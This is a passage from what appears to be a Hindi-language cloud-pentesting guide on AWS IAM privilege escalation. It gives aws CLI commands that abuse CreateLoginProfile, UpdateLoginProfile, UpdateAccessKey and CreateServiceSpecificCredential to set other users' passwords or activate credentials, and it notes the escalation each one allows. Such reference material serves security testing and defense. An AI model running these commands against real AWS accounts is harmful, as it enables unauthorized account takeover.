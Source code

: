 इस विधि को शोषण करने के लिए एक उदाहरण कमांड इस तरह से दिख सकती है:
```bash
aws iam create-login-profile --user-name target_user --no-password-reset-required \
--password '|[3rxYGGl3@`~68)O{,-$1B"zKejZZ.X1;6T}<XT5isoE=LB2L^G@{uK>f;/CQQeXSo>}t'
```
वह पासवर्ड गारंटी करता है कि यह **खातों के न्यूनतम पासवर्ड आवश्यकताओं** को पूरा करेगा।

**संभावित प्रभाव:** "किसी भी" उपयोगकर्ता को सीधे उन्नति प्राप्त करने के लिए।

### `iam:UpdateLoginProfile`

अन्य उपयोगकर्ताओं पर **`iam:UpdateLoginProfile`** अनुमति रखने वाले एक हमलावर वह उपयोगकर्ता पर **लॉगिन प्रोफ़ाइल सेटअप किया जा चुका है** के लिए AWS कंसोल में लॉगिन करने के लिए उपयोग किए जाने वाले पासवर्ड को बदल सकता है।

लॉगिन प्रोफ़ाइल बनाने की तरह, इस विधि का शोध करने के लिए एक उदाहरण कमांड इस तरह से दिख सकती है:
```bash
aws iam update-login-profile --user-name target_user --no-password-reset-required \
--password '|[3rxYGGl3@`~68)O{,-$1B"zKejZZ.X1;6T}<XT5isoE=LB2L^G@{uK>f;/CQQeXSo>}t'
```
वह पासवर्ड गारंटी करता है कि यह **खातों के न्यूनतम पासवर्ड आवश्यकताओं** को पूरा करेगा।

**संभावित प्रभाव:** किसी भी उपयोगकर्ता को सीधे उन्नति प्राप्त करने की अनुमति।

### `iam:UpdateAccessKey`

**`iam:UpdateAccessKey`** के साथ एक हमलावर निष्क्रिय पहुंच को सक्षम कर सकता है और इस्तेमाल कर सकता है (उसे निष्क्रिय पहुंच की आवश्यकता होगी)।

{% code overflow="wrap" %}
```bash
aws iam update-access-key --access-key-id AKIAIOSFODNN7EXAMPLE --status Active --user-name Bob
```
{% endcode %}

**पोटेंशियल प्रभाव:** कुंजी उपयोगकर्ता तक पहुंच को सीधे बढ़ाने के लिए (कुंजी होना आवश्यक है)।

### `iam:CreateServiceSpecificCredential`

इसकी मदद से एक **उपयोगकर्ता नाम** और एक **पासवर्ड** **उत्पन्न** किया जा सकता है जो अनुरोध में निर्दिष्ट सेवा (**CodeCommit या Amazon Keyspaces** - Apache Cassandra-) तक पहुंच के लिए उपयोग किया जा सकता है।

नए सेवा-विशिष्ट प्रमाणपत्रों के पास **संबंधित उपयोगकर्ता की अनुमतियों के समान अनुमतियाँ** होती हैं केवल इस बात का अंतर होता है कि वे केवल निर्दिष्ट सेवा तक पहुंच के लिए ही उपयोग किए जा सकते हैं।

प्रत्येक समर्थित सेवा प्रति उपयोगकर्ता के लिए केवल **दो सेट सेवा-विशिष्ट प्रमाणपत्रों की अधिकतम संख्या** हो सकती है।

{% code overflow="wrap" %}
```bash
aws iam create-service-specific-credential --user-name sofia --service-name codecommit.amazonaws.com
```
{% endcode %}

**संभावित प्रभाव:** उपयोगकर्ता सेवा अनुमतियों को सीधे उन्नयन करना।
